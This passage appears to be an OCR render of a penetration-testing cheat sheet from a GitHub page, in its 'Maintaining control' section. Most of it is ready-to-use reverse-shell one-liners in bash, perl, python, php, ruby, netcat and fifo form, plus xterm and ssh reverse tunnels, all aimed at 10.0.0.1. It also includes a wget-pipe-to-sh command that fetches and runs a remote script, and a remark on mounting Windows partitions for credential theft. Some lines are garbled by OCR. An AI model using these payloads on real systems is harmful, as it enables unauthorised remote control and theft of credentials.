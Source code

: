 ~<a name="maintain"/>~~<a>~
## Maintaining control

~<a name="rev_shell"/>~~<a>~
### Reverse Shell
Starting list sourced from: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
* bash -i >& /dev/tcp/10.0.0.1/8080 0>&1 (No /dev/tcp on older Debians, but use nc, socat, TCL, awk or any interpreter like Python, and so on.).
* perl -e 'use Socket; $i="10.0.0.1"; $p=1234; socket(S,PF\_INET, SOCK\_STREAM, getprotobyname("tcp")); if(connect(S,sockaddr\_in($p,inet\_aton($i)))){ open(STDIN,">&S"); open(STDOUT,">&S"); open(STDERR,">&S"); exec("/bin/sh -i");};'
* python -c 'import socket,subprocess,os; s=socket.socket(socket.AF\_INET, socket.SOCK\_STREAM); s.connect(("10.0.0.1",1234)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(\["/bin/sh","-i"]);'
* php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
* ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to\_i; exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)' nc -e /bin/sh 10.0.0.1 1234 # note need -l on some versions, and many does NOT support -e anymore
* rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
* xterm -display 10.0.0.1:1se	
* Listener- Xnest :1
* Add permission to connect- xhost +victimIP
* ssh -NR 3333:localhost:22 user@yourhost
* nc -e /bin/sh 10.0.0.1 1234

~<a name="remote_script"/>~~<a>~
### Execute a Remote Script

wget http://server/file.sh -O- | shThis command forces the download of a file and immediately its execution

~<a name="windows"/>~~<a>~
### Fun if Windows is present and accessible
If there is Windows installed and the logged-in user access level includes those Windows partition, attacker can mount them up and do a much deeper information gathering, credential theft and root-ing. Ntfs-3g is useful for mounting ntfs partitions read-write.

**TODO**: insert details on what to look for